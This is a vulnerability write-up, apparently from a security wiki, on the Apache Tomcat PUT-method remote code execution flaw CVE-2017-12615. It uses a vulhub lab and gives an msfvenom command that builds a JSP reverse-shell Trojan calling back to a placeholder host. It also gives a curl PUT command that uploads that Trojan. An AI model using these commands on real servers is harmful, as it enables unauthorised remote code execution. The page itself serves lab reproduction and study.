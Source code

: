 ```yaml
---
Title: Apache Tomcat Remote Code Execution Vulnerability CVE-2017-12615
---
```


# Apache Tomcat Remote Code Execution Vulnerability CVE-2017-12615

## Vulnerability Description

On September 19, 2017, Apache Tomcat officially confirmed and fixed two high-risk vulnerabilities, including the remote code execution vulnerability (CVE-2017-12615). 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Tomcat 7.0.0 - 7.0.81</span>

## Environment construction

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cbe1eedd-5a2a-4147-b44c-d2789769015f.png)

## Vulnerability reappears

The main reason for the vulnerability is the error in the `conf/web.xml` file configuration. Readonly enabled false, which can use the `PUT/DELETE` request method to operate the file.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/291a35c3-469d-48b6-a65d-92270dfe6024.png)

`msf` generates a `jsp` Trojan

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

Upload Trojans using PUT method

```shell
curl -v -X PUT --data-binary @shell.jsp "http://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```


</a-alert>

<br/>

Successfully uploaded Trojan file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/a963d85c-3514-490e-905f-1b6193c75adf.png)

Access the file to bounce a `shell`
